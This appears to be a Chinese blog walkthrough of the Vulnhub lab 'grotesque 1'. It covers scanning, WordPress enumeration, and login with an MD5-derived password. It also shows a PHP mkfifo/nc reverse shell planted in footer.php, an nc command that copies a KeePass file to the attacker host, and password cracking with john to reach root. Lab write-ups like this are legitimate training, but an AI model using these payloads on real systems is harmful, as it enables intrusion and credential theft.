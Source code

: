 ```yaml
---
layout: post
title: grotesque 1
subtitle: grotesque 1
date: 2025-07-16 15:40
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 环境搭建

[Vuluhub靶场IP问题 - Kyon-H的博客 | Kyon-H Blog](https://blog.kyon.xin/2025/07/01/Vuluhub%E9%9D%B6%E5%9C%BAIP%E9%97%AE%E9%A2%98/)
### 信息搜集

搜索IP，发现主机 `192.168.163.134`

![image.png](https://img.ghostliner.top/3k7JpE.png)

扫描端口发现66和80两个http端口

```shell
namp -T4 -A -p- 192.168.163.134
```

![image.png](https://img.ghostliner.top/BRzNRF.png)

扫描目录，发现80端口无内容，扫描66端口

```shell
dirsearch -u http://192.168.163.134:66/
```

![image.png](https://img.ghostliner.top/5eiLQC.png)

访问`changelog.txt`确定`vvmlist`版本为 `16.01.2021`

![image.png](https://img.ghostliner.top/ROdua0.png)

whatweb扫描网站

![image.png](https://img.ghostliner.top/jDnHct.png)

主页发现链接可以下载项目压缩包： http://192.168.163.134:66/vvmlist.zip

解压后打开

发现`sshpasswd.png`图片获取疑似用户名：`mossad`

网站主页发现特殊字符串，分析是`Brainfuck`代码

![image.png](https://img.ghostliner.top/r3vmo9.png)

解码得到 `/sshpasswd.png`

查看项目文件，在 `sense.md` 文件找到提示

![image.png](https://img.ghostliner.top/wrbRpk.png)

访问`/lyricsblog` 发现wordpress站点，F12发现提示，访问到图片

![image.png](https://img.ghostliner.top/5SqyhB.png)

![image.png](https://img.ghostliner.top/5Z2fmd.png)

扫描目录

```shell
dirsearch -u http://192.168.163.134/lyricsblog/ -e* -i 200
```

![image.png](https://img.ghostliner.top/FCr09S.png)

发现后台登录地址 `/lyricsblog/wp-login.php`
#### 获取用户名密码

wpscan扫描用户名，获取到 `erdalkomurcu`

```shell
wpscan --url http://192.168.163.134/lyricsblog/ -e u
# 保存
echo "erdalkomurcu" > user.txt
```

浏览站点发现与图片中文字相同的文章

![image.png](https://img.ghostliner.top/5bLaoe.png)

将文章内容保存到 `lyrics.txt` 计算其MD5值

![image.png](https://img.ghostliner.top/EUugLE.png)

转换为大写字符

```shell
echo "bc78c6ab38e114d6135409e44f7cdda2" | tr 'a-z' 'A-Z'
# BC78C6AB38E114D6135409E44F7CDDA2
```

使用用户名：`erdalkomurcu`，密码：`BC78C6AB38E114D6135409E44F7CDDA2` 登陆成功
### 反弹shell

浏览页面找到可以注入PHP代码的位置

![image.png](https://img.ghostliner.top/HVIuKb.png)

在footer.php添加反弹shell代码

```php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');
```

![image.png](https://img.ghostliner.top/dPdexr.png)

kali执行 `nc -lvp 4444` 开启监听，并反弹成功

发现`raphael`用户目录下`user.txt`但无权查看

查找网站配置文件，发现数据库配置

![image.png](https://img.ghostliner.top/IuQs5f.png)

获得用户名：`raphael`，密码：`_double_trouble_`

尝试切换用户，成功

![image.png](https://img.ghostliner.top/A5msB5.png)

查看 `user.txt`文件，发现内容

![image.png](https://img.ghostliner.top/QbUVOK.png)
### root提权

查看隐藏文件，发现 `.chadroot.kdbx`文件

![image.png](https://img.ghostliner.top/iPoLP3.png)

`.kdbx`为密码管理软件 `KeePass`生成的密码文件后缀名

传输到kali进行解密

```shell
# dc-9
nc 192.168.163.132 5555 < .chadroot.kdbx
# kali
nc -lvp 5555 >keepass
# 解密
keepass2john keepass | tee pass.txt
john pass.txt
```

![image.png](https://img.ghostliner.top/sl1TsA.png)

![image.png](https://img.ghostliner.top/zcN2b1.png)

解密得到 `chatter`

打开网站[KeeWeb](https://app.keeweb.info/)上传 `keepass`文件，输入密码 `chatter`，得到4组root密码

![image.png](https://img.ghostliner.top/hf1unI.png)

```
.:.yarak.:.
secretservice
.:.subjective.:.
rockyou.txt
```

使用 `.:.subjective.:.` 登录成功

![image.png](https://img.ghostliner.top/SXIzFt.png)

### 获取flag

![image.png](https://img.ghostliner.top/jFA97D.png)
